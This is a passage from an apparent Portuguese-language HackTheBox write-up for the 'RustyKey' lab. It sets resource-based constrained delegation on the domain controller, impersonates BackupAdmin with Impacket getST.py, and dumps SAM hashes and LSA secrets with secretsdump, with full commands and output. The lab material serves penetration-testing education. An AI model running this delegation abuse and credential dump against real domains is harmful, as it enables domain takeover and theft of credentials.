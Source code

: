 Para realizar esse ataque, irei utilizar os seguintes comandos na shell do **MM.TURNER**:
```bash
PS C:\Windows> Set-ADComputer DC -PrincipalsAllowedToDelegateToAccount 'it-computer3$'
PS C:\Windows> Get-ADComputer DC -Properties PrincipalsAllowedToDelegateToAccount


DistinguishedName                    : CN=DC,OU=Domain Controllers,DC=rustykey,DC=htb
DNSHostName                          : dc.rustykey.htb
Enabled                              : True
Name                                 : DC
ObjectClass                          : computer
ObjectGUID                           : dee94947-219e-4b13-9d41-543a4085431c
PrincipalsAllowedToDelegateToAccount : {CN=IT-Computer3,OU=Computers,OU=IT,DC=rustykey,DC=htb} <-- Permissão setada com sucesso
SamAccountName                       : DC$
SID                                  : S-1-5-21-3316070415-896458127-4139322052-1000
UserPrincipalName                    : 
```

{{< alert >}}
**Aqui colocamos a permissão no `DC` pois irá nos permitir impersonar qualquer usuário do AD.**
{{< /alert >}}

Após isso é só solicitar um TGS impersonando o `BackupAdmin` e rodar o `DCSync`. Para solicitar o TGS estarei usando o `getST.py` do `Impacket`:
```bash
getST.py -spn CIFS/dc.rustykey.htb -impersonate BackupAdmin -dc-ip "dc.rustykey.htb" "rustykey.htb"/'it-computer3$':'Rusty88!'
Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating BackupAdmin
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in BackupAdmin@CIFS_dc.rustykey.htb@RUSTYKEY.HTB.ccache
```

E para dumpar as hashs do dominio, estarei usando o `secretsDump.py` que também é do `Impacket`:
```bash
KRB5CCNAME=BackupAdmin@CIFS_dc.rustykey.htb@RUSTYKEY.HTB.ccache secretsdump -k "dc.rustykey.htb"

[*] Service RemoteRegistry is in stopped state                                                                                                                                                
[*] Starting service RemoteRegistry                                                                                                                                                           
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4                                                                                                                                 
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)                                                                                                                                          
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::                                                                                                        
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                                
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                                       
[*] Dumping cached domain logon information (domain/username:hash)                                                                                                                            
[*] Dumping LSA Secrets                                                                                                                                                                       
[*] $MACHINE.ACC                                                                                                                                                                              
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c74268fb0d2281f46aef4eba9cd553bbef21896b316407ae45ef212b185b299536547a7bd796da250124a6bb3064ae4
```